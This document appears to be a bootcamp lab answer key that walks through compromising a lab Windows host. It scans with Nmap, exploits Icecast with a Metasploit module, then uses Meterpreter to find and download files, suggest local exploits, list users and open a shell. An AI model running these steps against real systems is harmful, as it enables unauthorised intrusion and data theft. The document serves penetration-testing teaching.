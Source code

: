 #### Deliverable
ce you complete this assignment, submit your findings in the following document: 

- [Report.docx](Resources/Report.docx)
 
### Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.
 
1. Perform a service and version scan using Nmap to determine which services are up and running:

    - Run the Nmap command that performs a service and version scan against the target.

      > Answer: `nmap -sS -sV -O 192.168.0.20`

      ![](Images/nmap_scan_target_icecast.png)
 
 
2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:
 
   - Run the SearchSploit commands to show available Icecast exploits.
  
     > Answer: `searchsploit icecast`

     ![](Images/searchsploit_icecast.png)

3. Now that we know which exploits are available to us, let's start Metasploit:
 
   - Run the command that starts Metasploit:
    
     > Answer: `msfconsole`

     ![](Images/start_metasploit.png)
 
 
4. Search for the Icecast module and load it for use.
 
   - Run the command to search for the Icecast module:
     
     > Answer: `search icecast`

     ![](Images/search_icecast.png)
 

   - Run the command to use the Icecast module:

       **Note:** Instead of copying the entire path to the module, you can use the number in front of it.

     > Answer: `use 0` or `use exploit/windows/http/icecast_header`

     ![](Images/use_icecast_module.png)
 
 
5. Set the `RHOST` to the target machine.
 
   - Run the command that sets the `RHOST`:
      
     > Answer: `set RHOST 192.168.0.20`

     ![](Images/set_rhost.png)
 
6. Run the Icecast exploit.
 
   - Run the command that runs the Icecast exploit.
      
     > Answer: `exploit`

     ![](Images/exploit_DVW10.png)
 
   - Run the command that performs a search for the `secretfile.txt` on the target.
      
     > Answer: `search -f *secretfile*.txt`

     ![](Images/search_secretfile.png)
  
 7. You should now have a Meterpreter session open.
 
    - Run the command to performs a search for the `recipe.txt` on the target:

      > Answer: `search -f *recipe*.txt`

      ![](Images/search_recipe.PNG)
 
 
    - **Bonus**: Run the command that exfiltrates the `recipe*.txt` file:


      > Answer: `download 'c:\Users\IEUsers\Documents\Drinks.recipe.txt'`

      ![](Images/download_drinks_recipe.png)
      
      ![](Images/exfiltrate_files.png)
 

8. You can also use Meterpreter's local exploit suggester to find possible exploits.

 
   - **Note:** The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.

   > Answer: `run/post/multi/recon/local_exploit_suggester`

   ![](Images/exploit_suggester.png)

 
#### Bonus
  
 
A. Run a Meterpreter post script that enumerates all logged on users.

   > Answer: `run post/windows/gather/enum_logged_on_users`

   ![](Images/enum_logged_on_users.png)
 
     
B. Open a Meterpreter shell. 
 
   > Answer: `shell` & `systeminfo`

    ![](Images/DVW10_systeminfo.png)


 
C. Run the command that displays the target's computer system information:

   > Answer: `sysinfo`

   ![](Images/target_comp_info.png)



---

&copy; 2020 Trilogy Education Services, a 2U Inc Brand.   All Rights Reserved.
